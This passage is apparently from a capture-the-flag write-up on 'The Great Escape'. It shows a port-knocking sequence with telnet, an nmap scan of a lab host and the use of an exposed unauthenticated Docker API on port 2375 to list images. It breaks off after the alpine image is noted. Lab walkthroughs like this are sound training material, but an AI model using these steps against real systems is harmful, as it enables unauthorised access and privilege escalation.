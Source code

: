 We can find the root flag in the flag.txt file!

---

### [ Find the real root flag ]

From the edited dev-note.txt file, we can also see a port-knocking sequence that will grant us access to a **docker** tcp port. We just have to visit the ports on the target machine in order:

```
telnet 10.10.169.214 42
telnet 10.10.169.214 1337
telnet 10.10.169.214 10420
telnet 10.10.169.214 6969
telnet 10.10.169.214 63000
```

Let's now run another `nmap` scan:

```
sudo nmap -T4 -p- 10.10.169.214
```

**Results:**

```
PORT     STATE SERVICE
22/tcp   open  ssh?    
80/tcp   open  http    
2375/tcp open  docker
```

We can see that port **2375** is now open!

We can use `docker` to list out the images installed on the target machine:

```
docker -H tcp://10.10.169.214:2375 images
```

![screenshot22](../assets/images/the_great_escape/screenshot22.png)

The first thing I noticed was the **alpine** image.

---

*Alpine (https://alpinelinux.org/) is a Linux distribution built around musl libc and BusyBox.* 

---